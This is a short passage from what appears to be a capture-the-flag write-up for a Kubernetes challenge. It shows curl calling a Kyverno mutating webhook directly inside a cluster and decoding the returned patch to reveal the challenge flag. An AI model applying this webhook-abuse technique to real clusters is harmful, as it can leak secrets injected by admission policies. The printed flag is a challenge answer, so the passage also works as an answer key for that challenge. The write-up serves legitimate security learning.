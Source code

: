 Paste the JSON in a pastebin file and transfer the file to the shell and store in a file named pod.json

```bash
> wget https://pastebin.com/raw/{your-id} -o pod.yaml

> curl -X POST -H "Content-Type: application/json" --data @pod.json https://kyverno-svc.kyverno.svc.cluster.local/mutate -k | jq .
{
# <------------- ---------------->
  "response": {
    "uid": "69ce7dea-2a90-43d3-87e3-9551f8c96c18",
    "allowed": true,
    "patch": "W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d",
    "patchType": "JSONPatch"
  }
}
```

We can see the response patch is in base64 converting it on [CyberChef](https://gchq.github.io/CyberChef/) we get the flag

{% code overflow="wrap" %}
```json
[{"op":"add","path":"/spec/containers/0/env","value":[{"name":"FLAG","value":"wiz_k8s_lan_party{you-are-k8s-net-master-with-great-power-to-mutate-your-way-to-victory}"}]}, {"path":"/metadata/annotations","op":"add","value":{"policies.kyverno.io/last-applied-patches":"inject-env-vars.apply-flag-to-env.kyverno.io: added /spec/containers/0/env\n"}}]
```
{% endcode %}
